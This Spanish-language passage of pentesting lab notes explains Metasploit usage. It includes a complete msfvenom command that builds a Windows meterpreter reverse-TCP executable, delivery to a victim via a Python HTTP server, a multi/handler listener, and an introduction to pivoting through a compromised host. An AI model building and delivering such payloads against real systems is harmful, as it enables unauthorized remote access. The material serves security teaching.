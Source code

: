 -----

Para utilizar la herramienta basta con listar los **parámetros** de la misma, de esta forma lograremos entender como es que se estructura una carga maliciosa.

- **``msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.194 LPORT=4444 -f exe -o reverse.exe``**

Con esta sintaxis estoy indicando que el payload ``-p`` es ``windows/x64/meterpreter/reverse_tcp`` por lo tanto en la sesión de ``multi/handler``  es ==muy importante== saber que tendríamos que colocar ``set payload windows/x64/meterpreter/reverse_tcp`` (siempre se debe usar el mismo Payload en ambos lados), a su vez indico mi **IP** de atacante con el **puerto** que coloque en la sesión de ``multi/handler``, por ultimo especifico la extensión del archivo y que se exporte con el nombre ``reverse.exe``.
Cabe destacar que como indicamos en el payload ``meterpreter``, significa que esta sesión es válida ==únicamente para este==, si quisieramos entablar una conexión con ``nc``, deberíamos colocar otro Payload.

Ahora lo que tenemos que hacer es **enviar el archivo malicioso a la máquina víctima**, en mi caso la máquina **Windows 7**. Para esto podemos hacerlo haciendo uso de un servidor con ``python3 -m http.server 80``.

------

Una vez tengamos el archivo ejecutable en la **máquina víctima** nos colocaremos en escucha con ``run`` en el ``multi/handler`` ya configurado previamente. Luego deberíamos esperar que la víctima (en este caso nosotros) ejecute el archivo malicioso creado con ``msfvenom``.

![[MS 8.png]]

![[MS 7.png]]

-----
# Pivoting con ``Metasploit``

 > El **Pivoting** (también conocido como “hopping”) es una técnica utilizada en pruebas de penetración y en el análisis de redes que implica el uso de una máquina comprometida para atacar otras máquinas o redes en el mismo entorno.
 
Esta técnica se puede realizar tanto de manera manual como de forma automática, en este caso veremos la segunda.

En este caso tenemos un escenario simulado por nosotros donde disponemos de **tres máquinas**. Se mostrará a continuación un diagrama hecho en https://excalidraw.com.

------

Máquina atacante **Linux**.
Máquina intermedia **Windows 7**.
Máquina objetivo **Linux**.

![[MS 9.png]]

En este ejemplo como podemos ver la **máquina atacante posee alcance únicamente a la máquina intermedia**, en cambio la **máquina intermedia posee alcance tanto hacia la máquina atacante como a la máquina objetivo**. Nosotros vamos a usar la máquina intermedia como **puente** hacia la máquina objetivo.

---